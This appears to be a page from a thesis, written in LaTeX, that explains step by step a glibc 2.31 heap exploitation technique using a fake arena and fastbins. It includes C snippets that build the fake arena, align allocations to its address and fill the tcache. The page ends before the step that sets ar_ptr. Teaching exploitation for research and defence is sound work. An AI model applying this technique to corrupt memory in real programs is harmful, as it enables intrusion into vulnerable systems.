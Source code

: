 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\begin{document}
The first line is maximum heap size, also, the second line is maximum chunk size. This is the threshold of mmap. 
\begin{lstlisting}[language=c,frame=tlrb]

	uint8_t* fake_arena = malloc(0x1000); 
	uint8_t* target_loc = fake_arena + 0x30;
	uint8_t* target_chunk = (uint8_t*) fake_arena - 0x10;
\end{lstlisting}
The second step is to initialize the mentioned fake arena and target location. Then, initial malloc\_state of the arena, also, system\_mem field. This field is used to validate the size of the chunk, so it must be larger than our chunk size. 
\begin{lstlisting}[language=c,frame=tlrb]

	fake_arena[0x888] = 0xFF;
	fake_arena[0x889] = 0xFF; 
	fake_arena[0x88a] = 0xFF; 
\end{lstlisting}
Now we need to find the location of fake arena 
\begin{lstlisting}[language=c,frame=tlrb]
	uint64_t new_arena_value = (((uint64_t) target_chunk) + HEAP_MAX_SIZE) & ~(HEAP_MAX_SIZE - 1);
	uint64_t* fake_heap_info = (uint64_t*) new_arena_value;
\end{lstlisting}
The next step as we told, The location of fake arena is located at an offset of the heap so we have to allocate fake chunks until reach the fake new arena:
\begin{lstlisting}[language=c,frame=tlrb]
	uint64_t* user_mem = malloc(MAX_SIZE);
	while((long long)user_mem < new_arena_value){
		user_mem = malloc(MAX_SIZE);
	}
\end{lstlisting}
As we told, this approach use the fast bins approach , so, we need a chunk in range of the fast bins chunk , also, a pointer to chunk : 
\begin{lstlisting}[language=c,frame=tlrb]
	uint64_t* fastbin_chunk = malloc(0x50)
	uint64_t* chunk_ptr = fastbin_chunk - 2
\end{lstlisting}
This file work on \libc{-2.31} which support tcache as the first mechanism, so, like fastbin\_dup all we need is to fill up the tcache to force the heap manager role back to the fast bins
\begin{lstlisting}[language=c,frame=tlrb]

	uint64_t* tcache_chunks[7];
	for(int i = 0; i < 7; i++){
		tcache_chunks[i] = malloc(0x50);
	}	
	for(int i = 0; i < 7; i++){
		free(tcache_chunks[i]);
	}
\end{lstlisting}
The next step is setting up ar\_ptr of heap structure in the fake heap. This field is the first one in the structure and is located at offset 0x00. 
\end{document}
